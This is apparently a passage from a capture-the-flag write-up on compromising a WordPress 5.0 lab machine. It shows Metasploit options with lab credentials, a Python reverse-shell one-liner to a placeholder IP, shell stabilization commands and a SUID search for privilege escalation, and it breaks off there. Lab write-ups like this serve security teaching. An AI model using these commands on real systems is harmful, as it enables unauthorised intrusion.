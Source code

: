 ***

We got the login, we can search for an exploit regarding the `wordpress 5.0`

![](gitbook/cybersecurity/images/Pasted%20image%2020250328145750.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250328150658.png)

Let's use these options in order to get the shell in `metasploit`:

```
set username kwheel
set password cutiepie1
set rhosts blog.thm
set lhost tun0
exploit
```

After we send the exploit, we get a `meterpreter` session:

![](gitbook/cybersecurity/images/Pasted%20image%2020250328150952.png)

We can migrate into netcat for a more comfortable shell or stay in meterpreter, I decided to migrate just for run:

```
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Let's proceed with privilege escalation.

## PRIVILEGE ESCALATION

***

If we migrated to netcat we can stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can begin by checking the `SUID 4000` binaries

```
find / -perm -4000 2>/dev/null
```

We can find this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250328152927.png)
